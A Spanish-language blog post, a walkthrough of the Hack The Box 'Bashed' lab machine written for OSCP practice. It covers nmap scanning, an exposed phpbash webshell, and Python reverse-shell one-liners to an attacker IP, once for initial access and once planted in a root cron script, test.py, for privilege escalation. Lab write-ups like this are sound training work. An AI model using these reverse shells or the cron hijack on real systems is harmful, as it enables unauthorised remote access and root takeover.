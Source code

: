 ```yaml
---
layout: post
title:  "OSCP Path ~ Bashed de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada BASHED siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, PHP. Webshell, Maquinas Retiradas, Writeup, Hacking
---
```


# Bashed ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.68       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Procedemos a hacer Fuzzing o reconocimiento de rutas a nivel web
```bash
1.- /dev
2.- /uploads
3.-/js
```
Vamos a revisar esas rutas y si almacenan archivos y son visibles 

# Explotacion

Encontramos en la ruta `http://10.10.10.68/dev/phpbash.php` una webshell !! Una terminal interactiva como el usuarion `www-data`
Vemos que desde la webshell ya podriamos listar el contenido de la primera flag almacenada en la ruta `home/arrexel/user.txt`
Pero porque no vamos a conseguir un Revese-Shell en nuestra maquina atacante, probamos diversas Rshells y esta nos funciona correctamente.
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.12",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Nos ponemos a la escucha con una session de `netcat`-`nc -vlnp 443`
y recibimos la shell, hacemos un tratamiento de la tty como siempre y pillamos la primera flag.

# Escalada de privilegios

Listamos privilegios de www.data con `$sudo -l` y nos dice que podemos ejecutar todos los comandos como el Usuario 

Scriptmanager: 	Hacemos lo siguiente	$ sudo -u scriptmanager /bin/bash

Y nos convertimos en el usuario scriptmanager $

Nos movemos al directorio / raiz y desde ahi listamos los diferentes archivos para ver su contenido.

En este caso encontramos en el directorio inusual en la `/` - `“SCRIPTS”` y un script en python llamado `"test.py"` que por detras tiene una `Tarea Cron` como administrador del sistema.

Modificamos o borramos el script `“test.py"` y creamos otro archivito llamado igual con nuestro propio script en python que va a llevar el siguiente comando:
```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.12",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
[*] Dato importante [*]

El mismo comando que antes sin el `python -c` y quitando las comillas.

Nos quedamos a la eschucha con `nc -vlnp 1234` y cuando la `Tarea Cron` se ejecute como el usuario `root`; conseguiremos nuestra Reverse-Shell como el user `ROOT`

Maquina Bashed Rooteada =) 



